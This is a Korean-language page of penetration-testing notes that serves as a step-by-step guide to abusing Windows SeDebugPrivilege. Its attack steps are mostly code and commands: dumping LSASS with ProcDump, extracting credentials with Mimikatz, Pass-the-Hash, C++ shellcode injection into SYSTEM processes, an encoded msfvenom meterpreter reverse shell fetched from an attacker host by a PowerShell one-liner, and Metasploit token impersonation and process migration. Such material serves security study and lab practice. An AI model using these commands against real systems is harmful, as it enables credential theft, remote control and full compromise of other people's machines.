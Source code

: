 ```yaml
---
layout: page
title: SeDebugPrivilege
description: >
  This chapter covers the basics of content creation with Hydejack.
hide_description: true
sitemap: false
---
```


0. this unordered seed list will be replaced by toc as unordered list
{:toc}


# SeDebugPrivilege를 이용한 권한 상승 및 자격 증명 탈취 가이드

`SeDebugPrivilege`는 프로세스를 디버깅하기 위해 설계된 권한입니다. 이 권한을 가진 사용자는 모든 프로세스(예: SYSTEM 프로세스)의 메모리에 접근할 수 있으며, ACL(접근 제어 목록)을 무시하고 프로세스를 열 수 있습니다. 이 때문에 LSASS 프로세스 메모리 덤프를 통해 자격 증명(NTLM 해시, Kerberos 티켓)을 추출하거나, 프로세스 주입을 통해 권한 상승(Privilege Escalation)을 수행하는 데 악용될 수 있습니다. 관리자 계정에서 기본적으로 부여되며, 이미 이 권한을 가진 상태에서 SYSTEM 수준으로 상승하거나 민감 정보를 탈취합니다.

https://medium.com/@Strange0/windows-privilege-escalation-abusing-user-privileges-c7532831cb84

### **공격 원리: 프로세스 메모리 접근**

`SeDebugPrivilege`는 OpenProcess API를 통해 모든 프로세스 핸들을 PROCESS_ALL_ACCESS 권한으로 열 수 있게 합니다. 이를 이용해:

1. LSASS(Local Security Authority Subsystem Service) 프로세스의 메모리를 덤프하여 자격 증명을 추출합니다. LSASS는 사용자 해시를 메모리에 저장하므로, 덤프 후 Mimikatz나 비슷한 도구로 분석 가능.
2. 다른 프로세스(예: SYSTEM 프로세스)에 코드를 주입하여 권한 상승이나 백도어 설치.
3. 토큰 복제나 조작으로 더 높은 권한 획득.

이 권한은 프로세스가 잠겨 있어도 메모리 접근을 허용하므로, 직접 파일 복사 대신 메모리 덤프나 주입이 주된 방법입니다.

---

### **1. 취약점 식별**

- **목표:** 현재 사용자가 `SeDebugPrivilege` 권한을 보유하고 있는지 확인합니다.

```powershell
whoami /priv
```

- **확인 사항:** 출력된 목록에 `SeDebugPrivilege`가 `Enabled` 상태로 있는지 확인합니다. 만약 Disabled라면, AdjustTokenPrivileges API를 사용해 활성화할 수 있습니다.

---

### **2. 단계별 공격 절차**

#### **1단계: SeDebugPrivilege 활성화 (필요 시)**
- 권한이 Disabled 상태라면, PowerShell이나 C++ 코드를 사용해 활성화합니다.

```powershell
$token = [System.Security.Principal.WindowsIdentity]::GetCurrent().Token
$priv = New-Object System.Security.AccessControl.Privilege
$priv.Privilege = 'SeDebugPrivilege'
$priv.Enable()
```

#### **2단계: LSASS 메모리 덤프를 통한 자격 증명 추출**
- ProcDump 도구를 사용해 LSASS 프로세스를 덤프합니다. (SysInternals에서 다운로드 가능)
- https://learn.microsoft.com/ko-kr/sysinternals/downloads/procdump

```powershell
# ProcDump 다운로드 및 실행 (예: 공격자 머신에서 업로드)
procdump.exe -accepteula -ma lsass.exe lsass.dmp
```

- 덤프 파일을 Mimikatz로 분석하여 해시 추출.

```powershell
mimikatz.exe
sekurlsa::minidump lsass.dmp
sekurlsa::logonpasswords
```

- 추출된 NTLM 해시를 사용해 Pass-the-Hash 공격으로 SYSTEM 권한 상승.

#### **3단계: 프로세스 주입을 통한 권한 상승**
- C++ 코드를 컴파일해 실행하거나 PowerShell로 프로세스 주입.

```cpp
#include <windows.h>
#include <iostream>

int main() {
    // SeDebugPrivilege 활성화
    HANDLE hToken;
    TOKEN_PRIVILEGES tp;
    OpenProcessToken(GetCurrentProcess(), TOKEN_ADJUST_PRIVILEGES, &hToken);
    LookupPrivilegeValue(NULL, SE_DEBUG_NAME, &tp.Privileges[0].Luid);
    tp.PrivilegeCount = 1;
    tp.Privileges[0].Attributes = SE_PRIVILEGE_ENABLED;
    AdjustTokenPrivileges(hToken, FALSE, &tp, 0, NULL, NULL);
    CloseHandle(hToken);

    // 대상 프로세스 열기 (예: PID 1234의 SYSTEM 프로세스)
    HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, 1234);
    if (hProcess) {
        // 쉘코드 주입 예시 (메시지박스 쉘코드)
        unsigned char shellcode[] = { /* 여기에 쉘코드 바이트 배열 삽입 */ };
        LPVOID remoteMem = VirtualAllocEx(hProcess, NULL, sizeof(shellcode), MEM_COMMIT, PAGE_EXECUTE_READWRITE);
        WriteProcessMemory(hProcess, remoteMem, shellcode, sizeof(shellcode), NULL);
        CreateRemoteThread(hProcess, NULL, 0, (LPTHREAD_START_ROUTINE)remoteMem, NULL, 0, NULL);
        CloseHandle(hProcess);
    }
    return 0;
}
```

- 컴파일 후 실행: Visual Studio 사용. 쉘코드는 msfvenom 없이 수동 생성.

- PowerShell 대안:

```powershell
# OpenProcess, VirtualAllocEx, WriteProcessMemory, CreateRemoteThread API 호출 로직
Add-Type -MemberDefinition '[DllImport("kernel32.dll")] public static extern IntPtr OpenProcess(uint dwDesiredAccess, bool bInheritHandle, uint dwProcessId);' -Namespace Win32 -Name Kernel
# 추가 API 정의 및 주입 코드
```

#### **4단계: 토큰 조작 및 추가 악용**
- 다른 프로세스의 토큰을 복제하여 SYSTEM으로 실행.

```powershell
# Mimikatz 사용
mimikatz.exe
privilege::debug
token::elevate
```

- 파일 유출: 덤프된 파일을 SMB나 HTTP로 공격자 머신으로 전송.

---

### **3. Metasploit 사용**

#### **1단계: Reverse Shell 생성**
- msfvenom 사용해서 생성

```bash
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=IP LPORT=PORT -f exe -o shell-name.exe
```


#### **2단계: Target 서버에서 Reverse Shell 다운로드
- [[파일_전송_종합_가이드]]

```powershell
powershell "(New-Object System.Net.WebClient).Downloadfile('http://<kali-ip>:8000/shell-name.exe','shell-name.exe')"
```


#### **3단계: msf에서 Reverse Shell 대기**
- msf 셋팅

```bash
msfconsole
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST kali-ip
set LPORT listening-port
run
```


#### **4단계: Target 서버에서 Reverse Shell 실행
- Reverse Shell 실행

```powershell
Start-Process "shell-name.exe"
```


#### **5단계: Incognito 로드, List tokens 출력**
- msf 내 Incognito 로드 시킴.
- Incognito 모듈 : 이 모듈은 성공적으로 시스템을 침투한 후, Windows의 사용자 토큰(access token)을 캡처하고 이를 이용해 다른 사용자로 가장(impersonate)할 수 있게 해줍니다. 토큰은 Windows의 인증 메커니즘으로, 이를 훔치면 비밀번호 없이도 다른 계정의 권한을 사용할 수 있습니다.

```bash
load incognito
list_tokens -g
```

![Pasted_image_20250820233342.png](/image/Pasted_image_20250820233342.png)


#### **6단계: 토큰 사칭**
- Administrators 의 토큰을 사칭
- 높은 권한 토큰이 있더라도 권한 있는 사용자의 권한이 없을 수 있습니다(이는 Windows에서 권한을 처리하는 방식 때문입니다. 가장된 토큰이 아닌 프로세스의 기본 토큰을 사용하여 프로세스가 수행할 수 있는 작업 또는 수행할 수 없는 작업을 결정합니다).

```bash
impersonate_token "BUILTIN\Administrators"
```



#### **7단계: 프로세스 마이그레이션**
- 올바른 권한이 있는 프로세스로 마이그레이션해야 합니다. 가장 안전한 프로세스는 services.exe 프로세스입니다. 먼저 _ps_ 명령을 사용하여 프로세스를 보고 services.exe 프로세스의 PID를 찾습니다. _migrate PID-OF-PROCESS_ 명령을 사용하여 이 프로세스로 마이그레이션합니다.

```bash
# 프로세스 목록에서 services.exe PID 확인 (668)
ps 

migrate 668
```

